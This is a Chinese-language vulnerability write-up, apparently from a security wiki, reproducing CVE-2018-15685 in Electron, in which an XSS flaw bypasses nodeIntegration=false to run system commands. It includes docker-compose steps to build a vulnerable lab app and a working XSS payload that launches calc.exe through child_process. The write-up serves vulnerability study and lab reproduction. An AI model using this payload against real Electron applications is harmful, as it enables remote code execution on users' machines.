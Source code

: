 （CVE-2018-15685）Electron WebPreferences 远程命令执行漏洞
==========================================================

一、漏洞简介
------------

Electron在设置了`nodeIntegration=false`的情况下（默认），页面中的JavaScript无法访问node.js的内置库。CVE-2018-15685绕过了该限制，导致在用户可执行JavaScript的情况下（如访问第三方页面或APP存在XSS漏洞时），能够执行任意命令。

二、漏洞影响
------------

GitHub Electron 1.7.15版本，1.8.7版本，2.0.7版本，3.0.0-beta.6版本。

三、复现过程
------------

### 编译APP

执行如下命令编译一个包含漏洞的应用：

    docker-compose run -e PLATFORM=win64 --rm electron

其中PLATFORM的值是运行该应用的操作系统，可选项有：`win64`、`win32`、`mac`、`linux`。

编译完成后，再执行如下命令，启动web服务：

    docker-compose run --rm -p 8080:80 web

此时，访问`http://www.0-sec.org:8080/cve-2018-15685.tar.gz`即可下载编译好的应用。

### 漏洞复现

在本地打开应用：

![](/Users/aresx/Documents/VulWiki/.resource/(CVE-2018-15685)ElectronWebPreferences远程命令执行漏洞/media/rId26.png)

点击提交，输入框中的内容将会显示在应用中，显然这里存在一处XSS漏洞。

我们提交\`\`，发现没有任何反馈，原因就是`nodeIntegration=false`。

此时，提交POC（Windows）：

    <img src=1 onerror="window.open().open('data:text/html,<script>require(\'child_process\').exec(\'calc.exe\')</script>');">

可见，calc.exe已成功弹出：

![](/Users/aresx/Documents/VulWiki/.resource/(CVE-2018-15685)ElectronWebPreferences远程命令执行漏洞/media/rId27.png)

参考链接
--------

> https://vulhub.org/\#/environments/electron/CVE-2018-15685/
